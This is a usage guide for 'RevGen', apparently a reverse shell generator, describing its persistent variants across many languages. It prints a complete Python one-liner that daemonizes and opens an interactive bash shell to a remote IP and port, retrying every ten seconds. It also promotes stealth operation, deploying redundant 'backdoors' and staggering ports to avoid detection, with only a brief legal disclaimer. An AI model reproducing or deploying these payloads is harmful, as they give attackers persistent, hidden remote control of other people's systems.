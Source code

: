 # 💀 RevGen Persistent Shells Guide

## 🎯 Overview

RevGen now supports **persistent variants** for ALL available shell languages! These persistent shells automatically:

- **Daemonize** and run in the background
- **Survive terminal closure**
- **Auto-reconnect** every 10 seconds if connection is lost
- **Operate independently** of the parent process

## 🧞‍♂️ Available Persistent Shells

### **Python-Based Persistent Shells**
```bash
# Python (Persistent) - True daemon with fork()
revgen --ip 192.168.1.100 --port 4444 --lang python_persistent

# Python3 (Persistent) - True daemon with fork()
revgen --ip 192.168.1.100 --port 4444 --lang python3_persistent
```

### **Shell-Based Persistent Shells**
```bash
# Bash (Persistent) - Uses nohup with infinite loop
revgen --ip 192.168.1.100 --port 4444 --lang bash_persistent

# Shell (Persistent) - POSIX shell with nohup
revgen --ip 192.168.1.100 --port 4444 --lang sh_persistent
```

### **Scripting Language Persistent Shells**
```bash
# Perl (Persistent) - Fork-based daemon
revgen --ip 192.168.1.100 --port 4444 --lang perl_persistent

# PHP (Persistent) - Uses pcntl_fork() for daemonization
revgen --ip 192.168.1.100 --port 4444 --lang php_persistent

# Ruby (Persistent) - Process.daemon for background execution
revgen --ip 192.168.1.100 --port 4444 --lang ruby_persistent

# Node.js (Persistent) - Detached child process
revgen --ip 192.168.1.100 --port 4444 --lang node_persistent
```

### **Network Tool Persistent Shells**
```bash
# Netcat (Persistent) - Infinite loop with nohup
revgen --ip 192.168.1.100 --port 4444 --lang nc_persistent

# Netcat OpenBSD (Persistent) - Named pipe approach
revgen --ip 192.168.1.100 --port 4444 --lang nc_openbsd_persistent

# Socat (Persistent) - Full TTY with persistence
revgen --ip 192.168.1.100 --port 4444 --lang socat_persistent
```

### **Compiled Language Persistent Shells**
```bash
# Go (Persistent) - Infinite loop with temp file
revgen --ip 192.168.1.100 --port 4444 --lang golang_persistent

# Java (Persistent) - Infinite loop with temp compilation
revgen --ip 192.168.1.100 --port 4444 --lang java_persistent
```

### **Windows Persistent Shell**
```bash
# PowerShell (Persistent) - Hidden window with infinite loop
revgen --ip 192.168.1.100 --port 4444 --lang powershell_persistent
```

## 🔥 Example Usage

### **Generate All Persistent Shells**
```bash
# See all available persistent options
revgen --list | grep persistent

# Generate specific persistent shell
revgen --ip 10.0.0.5 --port 9001 --lang python3_persistent --copy

# Generate with fancy output
revgen --ip 192.168.1.100 --port 4444 --lang bash_persistent --fancy
```

### **Your Original Python3 Persistent Example**
```bash
# This is equivalent to:
revgen --ip 192.168.29.31 --port 4444 --lang python3_persistent
```

Which generates:
```python
python3 -c "import socket,subprocess,os,time,sys;exec('try:\n if os.fork()>0:sys.exit(0)\nexcept:sys.exit(1)\nos.setsid();os.chdir(\'/\');\nwhile True:\n try:\n  s=socket.socket();s.connect((\'192.168.29.31\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\'/bin/bash\',\'-i\'])\n except:time.sleep(10)\n finally:\n  try:s.close()\n  except:pass')" &
```

## ⚡ Key Features of Persistent Shells

### **1. True Background Execution**
- All persistent shells run as background processes
- Detached from parent terminal/session
- Immune to terminal closure

### **2. Auto-Reconnection**
- Built-in retry logic (10-second intervals)
- Survives network interruptions
- Continuous connection attempts

### **3. Stealth Operation**
- Output redirected to `/dev/null`
- Silent operation (no console output)
- Minimal process signatures

### **4. Cross-Platform Support**
- Linux/Unix: Fork-based daemons
- Windows: Hidden PowerShell processes
- Universal: Language-agnostic approaches

## 🎯 Termination Commands

### **Quick Kill Commands for All Persistent Shells**
```bash
# Kill Python-based persistent shells
sudo pkill -f "python.*socket.*subprocess"

# Kill bash-based persistent shells  
sudo pkill -f "bash.*while.*tcp"

# Kill any shell connecting to your IP
sudo pkill -f "192.168.29.31.*4444"

# Nuclear option - kill all suspicious processes
sudo pkill -f "(python|bash|perl|php|ruby|node).*socket"
```

## 🚀 Advanced Examples

### **Compare Regular vs Persistent**
```bash
# Regular shell (terminates when terminal closes)
revgen --ip 192.168.1.100 --port 4444 --lang python3

# Persistent shell (survives terminal closure)
revgen --ip 192.168.1.100 --port 4444 --lang python3_persistent
```

### **Multiple Persistent Shells**
```bash
# Deploy multiple language backdoors for redundancy
revgen --ip 192.168.1.100 --port 4444 --lang python3_persistent --copy
revgen --ip 192.168.1.100 --port 4445 --lang bash_persistent --copy  
revgen --ip 192.168.1.100 --port 4446 --lang perl_persistent --copy
```

## ⚠️ Important Notes

1. **Root Privileges**: Some persistent shells may require elevated privileges
2. **Process Detection**: Persistent processes are more detectable by system monitoring
3. **Resource Usage**: Infinite loops consume system resources
4. **Legal Warning**: Only use on authorized systems you own or have permission to test

## 💡 Pro Tips

- **Stagger Connections**: Use different ports to avoid detection
- **Multiple Languages**: Deploy various shells for redundancy
- **Monitor Processes**: Check running processes to verify persistence
- **Clean Termination**: Always properly terminate persistent shells after testing

---

**Generated by RevGen - The Reverse Shell Genie 🧞‍♂️**

*Remember: With great power comes great responsibility. Use ethically!*
